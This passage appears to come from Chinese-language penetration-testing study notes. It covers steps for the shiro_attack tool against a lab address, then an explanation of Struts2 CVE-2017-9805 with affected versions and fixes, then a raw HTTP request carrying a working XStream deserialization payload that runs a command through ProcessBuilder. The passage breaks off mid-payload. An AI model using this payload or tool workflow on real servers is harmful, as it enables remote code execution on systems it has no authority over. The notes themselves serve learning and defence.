 ```
编写bat脚本用来打开jar

java -jar shiro_attack-2.2.jar

复制http://192.168.139.136:8080/login;jsessionid=02BE4662A8A124620B96EC242B270DA6登录网址
之后步骤为
选择爆破密钥
检测当前利用链
之后就可以命令执行

```

### struts2

#### 反序列化漏洞(CVE-2017-9805)

```
CVE-2017-9805即S2-052 反序列化漏洞也被称为无限制访问漏洞Struts2反序列化漏洞是由Xstream组件在解析用户提交的XML数据时，rest-plugin会根据URI扩展名或Content-Type来判断解析方法，并且缺乏适当的输入验证和控制，导致攻击者可以修改orders.xhtml为orders.xml或修改Content-Type头为application/xml，即可在Body中传递XML数据，在XML请求中嵌入特殊的payload，从而利用反序列化漏洞进行远程代码执行。

影响版本为
Struts 2.1.2 — Struts 2.3.33
Struts 2.5 — Struts 2.5.12

方案一
升级Struts到2.5.13最新版本

方案二
如果系统没有使用Struts REST插件，那么可以直接删除Struts REST插件，或者在配置文件中加入如下代码，限制服务端文件的扩展名
&lt;constant name=”struts.action.extension” value=”xhtml,,json” /&gt;

```

```
OST /orders/3/edit HTTP/1.1
Host: your-ip:8080
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/xml
Content-Length: 2415

&lt;map&gt;
  &lt;entry&gt;
    &lt;jdk.nashorn.internal.objects.NativeString&gt;
      &lt;flags&gt;0&lt;/flags&gt;
      &lt;value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data"&gt;
        &lt;dataHandler&gt;
          &lt;dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource"&gt;
            &lt;is class="javax.crypto.CipherInputStream"&gt;
              &lt;cipher class="javax.crypto.NullCipher"&gt;
                &lt;initialized&gt;false&lt;/initialized&gt;
                &lt;opmode&gt;0&lt;/opmode&gt;
                &lt;serviceIterator class="javax.imageio.spi.FilterIterator"&gt;
                  &lt;iter class="javax.imageio.spi.FilterIterator"&gt;
                    &lt;iter class="java.util.Collections$EmptyIterator"/&gt;
                    &lt;next class="java.lang.ProcessBuilder"&gt;
                      &lt;command&gt;
                        &lt;string&gt;touch&lt;/string&gt;
                        &lt;string&gt;/tmp/success&lt;/string&gt;
                      &lt;/command&gt;
                      &lt;redirectErrorStream&gt;false&lt;/redirectErrorStream&gt;
```